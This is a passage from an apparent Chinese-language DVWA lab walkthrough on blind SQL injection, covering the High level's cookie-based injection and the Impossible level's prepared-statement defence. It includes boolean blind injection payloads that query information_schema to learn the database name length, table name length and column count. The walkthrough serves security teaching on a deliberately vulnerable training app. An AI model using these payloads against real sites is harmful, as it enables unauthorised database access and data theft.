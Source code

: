 ```
    } 

    mysql_close(); 
} 

?>
```

可以看到，High级别的代码利用cookie传递参数id，当SQL查询结果为空时，会执行函数sleep(seconds)，目的是为了扰乱基于时间的盲注。同时在 SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。

**漏洞利用**
虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。但由于服务器端执行sleep函数，会使得基于时间盲注的准确性受到影响，这里我们只演示基于布尔的盲注：


```
抓包将cookie中参数id改为1’ and length(database())=4 #，显示存在，说明数据库名的长度为4个字符；

抓包将cookie中参数id改为1’ and length(substr(( select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #，显示存在，说明数据中的第一个表名长度为9个字符；

抓包将cookie中参数id改为1’ and (select count(column_name) from information_schema.columns where table_name=0×7573657273)=8 #，（0×7573657273 为users的16进制），显示存在，说明uers表有8个字段。
```


### Impossible
服务器端核心代码


```
<?php 

if( isset( $_GET[ 'Submit' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $id = $_GET[ 'id' ]; 

    // Was a number entered? 
    if(is_numeric( $id )) { 
        // Check the database 
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' ); 
        $data->bindParam( ':id', $id, PDO::PARAM_INT ); 
        $data->execute(); 

        // Get results 
        if( $data->rowCount() == 1 ) { 
            // Feedback for end user 
            echo '<pre>User ID exists in the database.</pre>'; 
        } 
        else { 
            // User wasn't found, so the page wasn't! 
            header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' ); 

            // Feedback for end user 
            echo '<pre>User ID is MISSING from the database.</pre>'; 
        } 
    } 
} 

// Generate Anti-CSRF token 
generateSessionToken(); 

```